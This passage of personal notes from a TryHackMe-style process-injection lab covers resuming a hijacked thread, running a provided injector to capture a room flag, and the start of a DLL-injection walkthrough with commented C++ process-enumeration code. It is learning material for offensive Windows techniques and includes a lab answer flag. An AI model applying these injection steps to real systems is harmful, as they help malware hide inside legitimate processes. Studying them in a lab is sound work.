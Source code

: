 At the final step, we can now take the target thread out of a suspended state. To accomplish this we can use ResumeThread.

```
ResumeThread(
	hThread // Handle for the thread
);
```

We can compile these steps together to create a process injector via thread hijacking. Use the C++ injector provided and experiment with thread hijacking.


Identify a PID of a process running as THM-Attacker to target. Supply the PID as an argument to execute thread-injector.exe located in the Injectors directory on the desktop. 

![[Pasted image 20220912171200.png]]

What flag is obtained after hijacking the thread?
*THM{w34p0n1z3d_53w1n6}*

### Abusing DLLs 

At a high-level DLL injection can be broken up into six steps:

    Locate a target process to inject.
    Open the target process.
    Allocate memory region for malicious DLL.
    Write the malicious DLL to allocated memory.
    Load and execute the malicious DLL.

We will break down a basic DLL injector to identify each of the steps and explain in more depth below.

At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: CreateToolhelp32Snapshot(), Process32First(), and Process32Next().


```
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```